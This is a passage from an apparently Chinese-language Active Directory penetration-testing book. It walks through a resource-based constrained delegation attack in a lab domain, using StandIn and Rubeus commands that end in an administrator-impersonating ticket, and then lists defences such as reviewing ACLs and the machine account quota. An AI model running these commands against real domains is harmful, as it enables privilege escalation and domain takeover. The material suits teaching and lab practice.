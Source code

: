 ```
Get-DomainComputer "MyDesktop" -Properties objectsid
StandIn.exe --computer "kingslanding" --sid "S-1-5-21-4243769114-3325725031-2403382846-1122"
```

之前命令的结果如下图所示：

![图 5.32 – 创建了一个新的计算机帐户](img/B18964_05_32.jpg)

图 5.32 – 创建了一个新的计算机帐户

现在，我们可以获取一个票证：

```
Rubeus.exe hash /password:cQkFGq47oafTact /user:MyDesktop$ /domain:sevenkingdoms.local
Rubeus.exe s4u /user:MyDesktop$ /aes256:10AB7F32 B28F27AA7903D168C32C12A469EC7174783D6B5F52E8C10831FBE605 /msdsspn:http/kingslanding /impersonateuser:administrator /ptt
```

结果可以在以下截图中看到：

![图 5.33 – 成功的 RBCD 攻击](img/B18964_05_33.jpg)

图 5.33 – 成功的 RBCD 攻击

此外，我们还可以通过使用*Nikhil Mittal*编写的 RACE 工具包，通过修改计算机对象的权限来实现持久化。

为了防止 RBCD 滥用，我们可以定期审查域中的 ACL，减少机器账户配额至`0`（**ms-DS-MachineAccountQuota**），并确保只有特权用户能够将机器添加到域中。此外，应用**敏感且不可委托**账户属性和**受保护用户**组来保护高特权账户。需要特别说明的是，仅将机器账户配额设置为`0`并不能防止此类攻击[15]。

## 受限委托
